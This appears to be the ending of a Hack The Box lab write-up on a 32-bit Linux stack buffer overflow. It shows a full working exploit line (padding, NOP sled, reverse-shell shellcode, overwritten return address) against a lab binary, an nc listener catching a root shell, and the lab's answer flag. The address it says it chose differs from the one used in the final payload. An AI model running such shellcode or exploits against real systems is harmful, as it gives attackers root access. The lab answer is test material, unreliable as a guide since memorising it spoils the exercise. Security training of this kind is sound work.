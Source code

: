 ```bash
```

```
0xffffd73a
```
\x3a\xd7\xff\xff

We can select one of the following addresses that point to the NOP value. I will chose the _0xffffd72a_. Now, we must write the address in little endian format, which is going to be our NOP address that we chose backwards.

```
\x2a\xd7\xff\xff
```

Now, we have to replace the EIP value in our exploit with the address above, resulting in our final exploit

```bash
./leave_msg $(python -c "print 'A' * 1841 + '\x90' * 124 + '\xda\xc5\xba\x97\x35\xe9\x15\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x12\x31\x50\x17\x03\x50\x17\x83\x7f\xc9\x0b\xe0\x4e\xe9\x3b\xe8\xe3\x4e\x97\x85\x01\xd8\xf6\xea\x63\x17\x78\x99\x32\x17\x46\x53\x44\x1e\xc0\x92\x2c\xab\x38\x75\xaa\xc3\x3e\x75\x90\xab\xb6\x94\x64\xad\x98\x07\xd7\x81\x1a\x21\x36\x28\x9c\x63\xd0\xdd\xb2\xf0\x48\x4a\xe2\xd9\xea\xe3\x75\xc6\xb8\xa0\x0c\xe8\x8c\x4c\xc2\x6b' + '\x3a\xd7\xff\xff'")
```

In our local machine, we will set our listener to recieve the reverse shell as root

```bash
nc -lvnp 8888
listening on [any] 8888 ...

```

We now have a connection and we will have our root flag 

```bash
connect to [10.10.16.33] from (UNKNOWN) [10.129.178.227] 50850
bash -i
root@nixbof32skills:/home/htb-student# id
uid=0(root) gid=1001(htb-student) groups=1001(htb-student)

```


**Answer:** HTB{wmcaJe4dEFZ3pbgDEpToJxFwvTEP4t}